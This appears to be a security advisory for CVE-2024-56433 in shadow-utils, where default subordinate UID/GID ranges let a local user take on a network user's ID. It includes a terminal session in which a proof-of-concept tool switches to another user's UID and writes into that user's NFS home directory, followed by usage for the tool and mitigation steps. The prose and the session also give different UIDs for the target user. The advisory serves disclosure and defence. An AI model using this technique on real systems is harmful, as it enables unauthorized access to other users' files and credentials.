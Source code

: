 # CVE-2024-56433
shadow-utils - Default subordinate ID assignment for local users

## Summary
The default subordinate ID assignment creates risk for collision with existing user ID's, creating potential for arbitrarily changing UID/GID and gaining unauthorized access to data and network resources.

## Impacted Versions / Distributions
Base Package: shadow-utils 4.4 - 4.17.0

## Impacted Linux Distributions 
Potentially: All recent distribution versions
Confirmed on: Debian 12, Red Hat Enterprise Linux 9, Red Hat Enterprise Linux 10

## Details
Shadow-utils began shipping with a default configuration to delegate subordinate ID's to local users.
```
$ cat /etc/login.defs | grep -i sub
SUB_UID_MIN  100000
SUB_UID_MAX  600100000
SUB_UID_COUNT  65536
SUB_GID_MIN  100000
SUB_GID_MAX  600100000
SUB_GID_COUNT  65536
#GRANT_AUX_GROUP_SUBIDS yes
$
```

When new local users are added to the system via any of the shadow-utils tools (adduser, useradd and during system install), each user is given a unique block of 65,536 UID's and GID's, starting at UID/GID 100000. For example, the following system has two local users added on it:
```
$ cat /etc/subuid
jon:100000:65536
testacct:165536:65536
$
```
Subordinate ID configuration delegates the right of usage of the specified range(s) to the user in a user namespace and is most often used for rootless containerization. However, containerization utilities are not required to enter a namespace and can be done via multiple means, including using the default shadow-utils tooling 'newuidmap' and 'newgidmap.' This allows for the user to arbitrarily change to the POSIX user ID of any ID within the range delegated to them.

## Example

In the following example, the user ID Jon - UID/GID 1000 - has been delegated a UID/GID range of 65,536 ID's starting at 100000. The network has other ID's configured via LDAP for centralized user management and login, with network users home directories on NFS. 

UID/GID *108372* belongs to network user *msteph*.

Leveraging the default subordinate UID/GID allocation created during an install, the local user can switch to the network users ID and then gain access to the NFS home directory, reading and writing files as the user.

```
jon@localhost ~]$ id;uname -a;cat /etc/subuid
uid=1000(jon) gid=1000(jon) groups=1000(jon),10(wheel)
Linux localhost.localdomain 5.14.0-503.14.1.el9_5.aarch64 #1 SMP PREEMPT_DYNAMIC Fri Nov 15 07:14:03 EST 2024 aarch64 aarch64 aarch64 GNU/Linux
jon:100000:65536
[jon@localhost ~]$ getent passwd msteph
msteph:x:108472:108472::/mnt/home/msteph:/bin/bash
[jon@localhost ~]$ ls -al subdo;getcap subdo
-rwxr-xr-x 1 jon jon 72936 Dec 22 23:12 subdo
[jon@localhost ~]$ ./subdo -u 108472 -g 108472 -r 1 -- bash
bash: /home/jon/.bashrc: Permission denied
bash-5.1$ id
uid=108472(msteph) gid=108472(msteph) groups=108472(msteph),65534(nobody)
bash-5.1$ cd ~msteph
bash-5.1$ ls
bash-5.1$ ls -al
total 16
drwx------ 3 msteph nobody 99 Dec 22 23:19 .
drwxr-xr-x. 8 nobody nobody 85 Dec 22 23:18 ..
-rw------- 1 msteph msteph 20 Dec 22 23:19 .bash_history
-rw-r--r-- 1 msteph nobody 18 Apr 30 2024 .bash_logout
-rw-r--r-- 1 msteph nobody 141 Apr 30 2024 .bash_profile
-rw-r--r-- 1 msteph nobody 492 Apr 30 2024 .bashrc
drwxr-xr-x 4 msteph nobody 39 Dec 20 09:10 .mozilla
bash-5.1$ touch testing123
bash-5.1$ ls -aal
total 16
drwx------ 3 msteph nobody 117 Dec 22 23:23 .
drwxr-xr-x. 8 nobody nobody 85 Dec 22 23:18 ..
-rw------- 1 msteph msteph 20 Dec 22 23:19 .bash_history
-rw-r--r-- 1 msteph nobody 18 Apr 30 2024 .bash_logout
-rw-r--r-- 1 msteph nobody 141 Apr 30 2024 .bash_profile
-rw-r--r-- 1 msteph nobody 492 Apr 30 2024 .bashrc
drwxr-xr-x 4 msteph nobody 39 Dec 20 09:10 .mozilla
-rw-r--r-- 1 msteph msteph 0 Dec 22 23:23 testing123
bash-5.1$
```

While NFS was used as an example, this extends beyond just NFS access. Infrastructures where Kerberos credentials may be stored on the local system become at risk, as the credentials could be grabbed from the local system and access to other kerberized services becomes possible.

## Mitigation

The SUB_ entries in */etc/login.defs* should be removed. Any entries in */etc/subuid* and */etc/subgid* that are not expected should also be removed.

## POC
POC to change UID/GID to desired allocated subordinate ID is attached as *subdo.c* 

Usage: *./subdo -u $uid -g $gid -r $range -- $cmd*
Example: *./subdo -u 108472 -g 108472 -r 1 -- bash*

*Note: Separate options from command with double -*


